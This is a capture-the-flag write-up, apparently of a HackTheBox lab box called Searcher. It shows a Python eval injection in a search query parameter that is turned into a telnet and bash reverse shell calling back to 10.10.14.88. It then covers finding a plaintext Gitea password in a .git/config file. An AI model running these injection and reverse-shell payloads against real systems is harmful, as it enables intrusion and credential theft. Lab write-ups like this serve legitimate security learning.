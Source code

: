 ### Building the Payload

We have two parameters under our control: `engine` and `query`. The `engine` parameter refers to the search engine being used, and it is a subclass of the Engine class. The `query` parameter represents the contents of our search. Let's utilize the `query` parameter for our search:

```python
url = eval(
  f"Engine.Google.search('INJECTION_GOES_HERE', copy_url={copy}, open_web={open})"
)
```

To construct the payload, we need to create a valid Python expression that executes any command of our choosing. Firstly, let's write a code snippet that uses 'curl' to retrieve a web page:

```python
__import__('os').system('curl https://10.10.14.88:8000/')
```

Now, we need to inject this code into the 'eval' expression. The simplest way to achieve this is by concatenating two strings: one empty string and the other being the result (status code) of the executed command:

```python
url = eval(
  f"Engine.Google.search('' + str(__import__('os').system('curl http://10.10.14.88:8000/'))) # ', copy_url={copy}, open_web={open})"
)
```

That way, our malicious search will be executed on the server side:

```python
' + str(__import__('os').system('TF=$(mktemp -u);mkfifo $TF && telnet 10.10.14.88 4000 0<$TF | bash 1>$TF')))#
```

![Connection](https://i.imgur.com/D2VMjLw.png)

## Privilege Escalation

#### Local Enumeration (svc)

We log in as the `svc` user. The user's flag is located in the home directory.

As we begin searching the system, we come across some sensitive files. The first one is `/etc/hosts`, which provides information about a _gitea_ subdomain (gitea.searcher.htb).

![Login Page of Gitea](https://i.imgur.com/JeZ5ewV.png)

The second one is located on the webpage directory: `.git/config`. This file contain the credentials of the cody user in _gitea_. 

```bash
$ cat config
...
[remote "origin"]
    url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
    fetch = +refs/heads/*:refs/remotes/origin/*
```
